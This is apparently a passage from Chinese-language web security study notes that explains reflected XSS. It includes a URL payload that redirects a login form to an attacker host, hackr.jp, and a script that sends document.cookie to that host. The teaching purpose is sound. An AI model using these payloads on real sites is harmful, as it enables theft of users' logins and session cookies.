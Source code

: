![1565752318382](images/1565752318382.png)

浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。 

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。 

http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s=" 对请求时对应的HTML源代码

> &lt;div&gt;  
> &lt;div class=&quot;logo&quot;&gt;   
> 	&lt;img src=&quot;/img/logo.gif&quot; alt=&quot;E! 拍卖会 /&gt;  
> &lt;/div&gt;  
> &lt;form action=&quot;http://example.jp/login&quot; method=&quot;post&quot; id=&quot;login&quot;&gt;  
> 	&lt;div class=&quot;input_id&quot;&gt;  
> 		ID  
> 		&lt;input type=&quot;text&quot; name=&quot;ID&quot; value=&quot;&quot;&gt;&lt;script&gt;var f=document.getElementById(&quot;login&quot;);f.action=&quot;http://hackr.jp/pwget&quot;; f.method=&quot;get&quot;;&lt;/script&gt;&lt;span s=&quot; /&gt;  
> 	&lt;/div&gt;  
> &lt;/form&gt;  
> &lt;/div>    

- ###### 对用户 **Cookie** 的窃取攻击 

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。 

> <script src=http://hackr.jp/xss.js></script> 

该脚本内指定的 http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。 

> var content = escape(document.cookie);
>
> document.write("<img src=http://hackr.jp/?");
>
> document.write(content);
>
> document.write(">"); 
